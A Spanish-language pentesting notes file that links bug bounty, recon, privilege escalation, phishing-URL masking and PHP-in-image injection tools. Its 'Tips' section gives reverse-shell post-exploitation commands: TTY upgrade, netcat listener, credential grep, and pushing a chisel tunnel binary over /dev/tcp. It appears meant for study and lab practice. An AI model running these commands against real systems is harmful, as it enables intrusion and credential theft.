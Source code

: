 # Varias cositas  

## Herramientas varias  

Asciinema - grabar consola  
https://asciinema.org/


Extensions Hack Tools  
https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi   
https://addons.mozilla.org/es/firefox/addon/hacktools/ 


VulnMap  
Escaner de vulnerabilidades web  
https://github.com/zhzyker/vulmap
https://securityonline.info/vulmap-web-vulnerability-scanning-and-verification-tools/


PEASS  
Suite para escalar privilegios  
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite 


Maltego  
Permite realizar OSINT en función de diversos datos y crear búsquedas personalizadas  
https://www.maltego.com/


NahamSec Resources  
https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters


Inyeccion de código PHP en imágenes  
https://github.com/dlegs/php-jpeg-injector
https://securityonline.info/php-jpeg-injector-injects-php-payloads-into-jpeg-images/


Enmascarar URL's para hacer phishing  
https://github.com/jaykali/maskphish
https://kalilinuxtutorials.com/maskphish/


Escaner de vulnerabilidades en docker  
https://github.com/aquasecurity/trivy 


Imágen de Docker para hacer reconocimiento de Bug Bounty
https://github.com/chvancooten/BugBountyScanner


OSMEDEUS  
Reconocimiento automático y escaneo en pruebas de Penetración.  
https://j3ssie.github.io/Osmedeus/  
https://github.com/j3ssie/Osmedeus  


GitDorker  
Busca en repositorios de github si hay información sensible  
https://github.com/obheda12/GitDorker


Admin Scanner  
Busca paneles de acceso a administracion en sitios web.  
https://github.com/alienwhatever/Admin-Scanner


CyberChef  
Utilidades de conversión  
https://gchq.github.io/CyberChef/


OneLiners para BugBounty  
https://github.com/KingOfBugbounty/KingOfBugBountyTips


Recopilado de tools  
https://start.me/p/m6XMmk/ethical-hacking


Comandos utiles de consola para pentesting  
https://securityonline.info/some-useful-linux-command-for-your-penetration-testinglinux-command/


Extensiones para Burp recomendadas por Akita:  
- Param Miner
- Content-Type Converter
- Upload Scanner
- SAML Raider
- JSON Web Tokens

Listas para descubrir mas extensiones Burp y Zap  
https://github.com/hahwul/WebHackersWeapons/tree/master/Burp%20and%20ZAP%20Extensions 

https://github.com/snoopysecurity/awesome-burp-extensions

https://github.com/sting8k/BurpSuite_403Bypasser 


WHM Tools  
Desde una web, seleccionando q herramientas queremos, crea un instalador de las mismas  
https://whw-tools.hahwul.com/  


Herramientas utiles para explotacion  
Por ejemplo servicios online que quedan a la espera de request y podemos ver el contenido, headers, etc del request recibido  
https://webhook.site 
https://requestcatcher.com 
https://canarytokens.org/generate 
http://dnsbin.zhack.ca 
https://ngrok.com 


Hetty  
Alternativa open source a Burp Suite  
https://github.com/dstotijn/hetty  


Blue Team  
https://github.com/BlueTeamLabs/sentinel-attack  
https://github.com/mitre/caldera   

BlueTeam Training Toolkit  
https://www.youtube.com/playlist?list=PLUANA2JtKjNs1Bjwdt86hG215QKsoDorO   
https://www.bt3.no/   


Scripts para busquedas de logs, archivos de configuracion, emails, etc  
https://github.com/daffainfo/Bug-Bounty-Tools  


All about bug bounty
Payloads, Bypass, herramientas de recon, etc  
https://github.com/daffainfo/AllAboutBugBounty  


SubDomainizer  
Es una herramienta para buscar subdominios ocultos, y secret keys  
https://github.com/nsonaniya2010/SubDomainizer  


GitDorker  
Es una herramienta para usar la api de busqueda de github información sensible.  
https://github.com/obheda12/GitDorker/    
https://obheda12.medium.com/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5  

TLD extensiones de dominios  
https://raw.githubusercontent.com/DragonJAR/Scripts/master/all-domain-extensions.txt  


Offensive Docker  
https://github.com/aaaguirrep/offensive-docker  


Search in Google  
https://www.exploit-db.com/google-hacking-database  


Hacks to search in Google Dorks  
https://pentest-tools.com/information-gathering/google-hacking  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  


### Steghide - Esteganografía  
Buscar contenido en las imágenes  

http://steghide.sourceforge.net/  
https://fwhibbit.es/steghide-brute-force-tool  
https://github.com/Va5c0/Steghide-Brute-Force-Tool  
https://github.com/Paradoxis/StegCracker  



